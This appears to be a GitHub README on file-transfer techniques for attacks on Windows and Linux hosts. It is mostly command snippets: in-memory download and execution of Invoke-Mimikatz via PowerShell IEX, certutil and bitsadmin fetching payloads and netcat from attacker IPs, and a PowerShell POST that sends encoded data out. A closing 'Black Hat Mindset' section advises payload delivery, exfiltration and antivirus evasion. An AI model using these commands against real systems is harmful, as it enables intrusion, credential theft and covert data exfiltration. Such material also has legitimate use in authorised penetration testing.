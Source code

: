 # Basic Methodology - File Transfer (Windows & Linux)

This README explores techniques for transferring files between Windows and Linux systems, leveraging tools like PowerShell, bitsadmin, certutil, wget, curl, php, and scp.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [File Downloads](#file-downloads)
  - [PowerShell Downloads](#powershell-downloads)
  - [Bitsadmin Downloads](#bitsadmin-downloads)
  - [Certutil Downloads](#certutil-downloads)
  - [Wget Downloads](#wget-downloads)
  - [cURL Downloads](#curl-downloads)
  - [PHP Downloads](#php-downloads)
- [File Uploads](#file-uploads)
  - [PowerShell Uploads](#powershell-uploads)
  - [SCP Uploads](#scp-uploads)
- [Advanced Techniques](#advanced-techniques)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

File transfer between Windows and Linux systems is critical for deploying payloads, extracting data, and maintaining persistence during an attack. This guide covers downloading files to both platforms and uploading files from Windows to Linux, using native and stealthy methods.

## Setup and Prerequisites

- **Environment**: Windows host for PowerShell, bitsadmin, and certutil; Linux host for wget, curl, php, and scp.
- **Tools**: Ensure PowerShell is enabled on Windows; install bitsadmin, certutil (native to Windows), wget, curl, php, and openssh-client (for scp) on Linux.
- **Network**: Identify accessible IPs and ports (e.g., 10.10.10.32, 192.168.49.89).
- **Permissions**: Administrative privileges may be required for some commands (e.g., bitsadmin).

## File Downloads

### PowerShell Downloads

Download files using PowerShell commands.

```powershell
Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1
IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')
Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"
```

### Bitsadmin Downloads

Download files using the Background Intelligent Transfer Service.

```cmd
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

### Certutil Downloads

Download files using the Windows certificate utility.

```cmd
certutil.exe -f http://192.168.49.89:80/payload.exe payload.exe
```

### Wget Downloads

Download files using wget on Linux.

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

### cURL Downloads

Download files using curl on Linux.

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### PHP Downloads

Download files using PHP on Linux.

```php
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

## File Uploads

### PowerShell Uploads

Upload files using PowerShell.

```powershell
Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```

### SCP Uploads

Transfer files securely using SCP.

```bash
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
```

## Advanced Techniques

- **Stealth**: Use user agents (e.g., Chrome) with Invoke-WebRequest or in-memory execution with IEX to avoid detection.
- **Server Setup**: On the receiving end, use `python3 -m http.server 80` (Linux) or a web server to host files for download.

## Black Hat Mindset

- **Deploy Payloads**: Use bitsadmin, certutil, or wget to deliver malicious files to targets.
- **Exfiltrate Data**: Leverage scp or Invoke-WebRequest to extract sensitive files.
- **Bypass Defenses**: Execute files in memory with PowerShell to evade antivirus.
- **Stay Silent**: Use native tools and obscure ports to blend with legitimate traffic.

## Resources

- PowerShell Documentation
- Bitsadmin Overview
- Certutil Documentation
- Wget Manual
- cURL Manual
- SCP Manual

